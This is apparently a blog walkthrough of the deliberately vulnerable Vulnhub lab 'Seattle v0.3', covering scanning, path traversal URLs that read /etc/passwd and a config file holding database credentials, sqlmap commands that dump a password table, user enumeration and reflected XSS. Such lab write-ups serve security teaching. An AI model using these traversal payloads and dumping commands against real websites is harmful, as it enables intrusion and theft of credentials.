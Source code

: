 ```yaml
---
layout: post
title: Seattle v0.3 Walkthrough
subtitle: Virtual Machine hosted on vulnhub from HollyGraceful
date: 2017-03-08 00:00:00
lastupdated: 
category: Vulnhub
tags: [vulnhub, walkthrough]
bigimg: /img/walkthrough1.jpg
comments: true
---
```


Table of contents

* Will be replaced with the ToC, excluding the "Contents" header
{:toc}

## Preface

Hi guys, today I'm ready to publish my walkthrough against the vm hosted on vulnhub called [Seattle v0.3](
https://www.vulnhub.com/entry/seattle-v03,145/) by HollyGraceful.

Let's go guy! We can find a few notes on [vulnhub's page](https://www.vulnhub.com/entry/seattle-v03,145/)'s description:

```plaintext
Graceful’s VulnVM is web application running on a virtual machine, it’s designed to simulate a simple eCommerce style website which is purposely vulnerable to a number of well know security issues commonly seen in web applications. This is really a pre-release preview of the project but it’s certainly functional as it stands, but I’m planning on doing a lot of work on this in the near future.

The plan is ultimately to have the application vulnerable to a large number of issues with a selection of different filters at different difficulties that way the as testers become better at detecting and exploiting issues the application can get hardened against common exploitation methods to allow the testers a wider ranger of experiences.

The first filters have now been implemented! The application now supports “levels” where Level 1 includes no real filtration of user input and Level 2 includes a simple filter for each vulnerable function.

Currently it’s vulnerable to:

    SQL Injection (Error-based)
    SQL Injection (Blind)
    Reflected Cross-Site Scripting
    Stored Cross-Site Scripting
    Insecure Direct-Object Reference
    Username Enumeration
    Path Traversal
    Exposed phpinfo()
    Exposed Administrative Interface
    Weak Admin Credentials
```


## Information Gathering

After launching netdiscover to find the vm's ip address,
![Net Discover](/assets/seattle/netdiscover.png)

I scanned the server with nmap and I could see apache web server version 2.4.16 was running on port 80:
![Nmap](/assets/seattle/nmap.png)

So I browsed it and I could see this:
![Web Site](/assets/seattle/website.png)


## Vulnerability Analysis

After that I decided to launch nikto, which revealed two directories admin, downloads and a lot of security issues, among which a remote file inclusion vulnerability!
![Nikto](/assets/seattle/nikto.png)


## PHP Info Disclosure

According with nikto that there is a phpinfo page which allows us to run various vulnerabilities to read the PHP source code pages: 

![PHP Info](/assets/seattle/phpinfo.png)

* allow_url_fopen=On    - which implies that LFI may be possible.
* allow_url_include=Off - which implies that RFI may not be possible.
* display_errors=Off    - which implies that errors aren't displayed in output.

![PHP Info 2](/assets/seattle/phpinfo2.png)

* include_path: .:/usr/share/pear:/usr/share/php - LFI only possible for these paths however.


## Path Traversal

if we click on catalogue link, the website offers us a pdf file download link. So I tried to put in the item parameter some ../ and the path of passwd file to use a Local File Inclusion vulnerability according to nikto:

```plaintext
http://192.10.2.9/download.php?item=../../../../etc/passwd
```

and I could download it:

```plaintext
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
systemd-timesync:x:999:997:systemd Time Synchronization:/:/sbin/nologin
systemd-network:x:998:996:systemd Network Management:/:/sbin/nologin
systemd-resolve:x:997:995:systemd Resolver:/:/sbin/nologin
systemd-bus-proxy:x:996:994:systemd Bus Proxy:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
avahi-autoipd:x:170:170:Avahi IPv4LL Stack:/var/lib/avahi-autoipd:/sbin/nologin
webalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
squid:x:23:23::/var/spool/squid:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
</div>
<div class="products-list"></div>
```

Then I navigated around the website and I found the admin account :smiley:
![Admin Account](/assets/seattle/admin-account.png)

According with the nikto results I navigated into admin folder and I could see these webpages:
![Admin Webpages](/assets/seattle/admin-webpages.png)

So we can use the LFI vulnerability and we download them:

```plaintext
http://192.10.2.9/download.php?item=../admin/admincontent.php
```

Inside it there was an include file named connection.php:
![Admin Content PHP file](/assets/seattle/admin-content-php.png)

So I downloaded it:

```plaintext
http://192.10.2.9/download.php?item=../admin/connection.php
```

and then I downloaded config.php file:

```plaintext
http://192.10.2.9/download.php?item=../admin/config.php
```

Inside it we can see the root credentials and the name of database! Fine! :smile:

```plaintext
<?php
$host = 'localhost';
$user = 'root';
$pass = 'Alexis*94';
$database = 'seattle';
?>
</div>
<div class="products-list"></div>
```


## User enumeration

If we try to insert fake email and password before, and the admin email and a fake password we can see that the website says us which is the correct email:
![User Enumeration](/assets/seattle/user-enumeration.png)


## Sql Injection

I tried to test sql injection on the products page:
![Sql Error](/assets/seattle/sql-error.png)

Fine :smirk: ! It seemed sql injection vulnerable. After that I tried to use sqlmap to exploit it. So I tried to use Burp Suite to capture http header of webpage and then I used it with sqlmap:
![Burp Suite](/assets/seattle/burp-suite.png)

```plaintext
root@kali:~# sqlmap -r http_header.txt --dbs --dbms MySQL --level 3 --risk 3
```

![SqlMap](/assets/seattle/sqlmap.png)

Good! I found the database seattle, if you remember we find it previously. Now we need to find the tables inside seattle database.If you remember we find one table previously, when I showed the content of admincontent php file, exactly the table's name is tblMembers but we launch sqlmap anyway to enumerate tables:

```plaintext
root@kali:~# sqlmap -r http_header.txt -D seattle --tables --dbms MySQL --level 3 --risk 3
```

We can find three tables tblBlogs, tblMembers and tbProducts:
![SqlMap](/assets/seattle/sqlmap1.png)

Now we need to find the columns of tblMembers to find admin password:

```plaintext
root@kali:~# sqlmap -r http_header.txt -D seattle -T tblMembers -columns --dbms MySQL --level 3 --risk 3
```

![SqlMap](/assets/seattle/sqlmap2.png)

```plaintext
root@kali:~# sqlmap -r http_header.txt -D seattle -T tblMembers -C password --dump --dbms MySQL --level 3 --risk 3
```

![SqlMap](/assets/seattle/sqlmap3.png)

Perfect! Now we can browse in the login page and we enter the admin's email found before and the password:
![Admin Login](/assets/seattle/admin-login.png)


## Reflected XSS

Reflected XSS discovered in author parameter in blog php file:
![Reflected XSS](/assets/seattle/reflected-xss.png)

